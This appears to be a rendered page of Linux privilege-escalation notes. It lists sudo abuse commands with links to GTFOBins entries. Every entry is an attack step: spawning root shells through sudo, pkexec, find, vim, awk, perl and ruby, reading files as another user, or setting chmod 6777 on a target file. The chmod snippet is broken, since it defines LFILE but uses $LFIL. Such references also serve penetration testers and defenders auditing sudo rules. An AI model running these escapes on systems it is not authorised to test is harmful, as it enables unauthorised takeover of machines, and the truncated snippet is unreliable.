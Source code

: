 ```
sudo -l
```

```
sudo -u $username /bin/bash
```

```
sudo -i
```

```
sudo su
```

```
sudo pkexec /bin/sh
```

```
sudo -u $username /usr/bin/find . -exec /bin/bash \; -quit
```

https://gtfobins.github.io/gtfobins/find/#sudo

```
sudo -u $username /usr/bin/vim -c ':!/bin/bash'
```

https://gtfobins.github.io/gtfobins/vim/#sudo

```
sudo -u $username /usr/bin/less $file
```

https://gtfobins.github.io/gtfobins/less/#sudo

```
sudo -u $username /usr/bin/awk '{print $0}' $file
```

```
sudo awk 'BEGIN {system("/bin/sh")}'
```

https://gtfobins.github.io/gtfobins/awk/#sudo

```
LFILE=file_to_change
sudo chmod 6777 $LFIL
```

https://gtfobins.github.io/gtfobins/chmod/#sudo

```
sudo perl -e 'exec "/bin/sh";'
```

https://gtfobins.github.io/gtfobins/perl/#sudo

```
sudo -u $username perl -e 'print `cat $file`'
```

```
sudo ruby -e 'exec "/bin/sh"'
```

https://gtfobins.github.io/gtfobins/ruby/#sudo

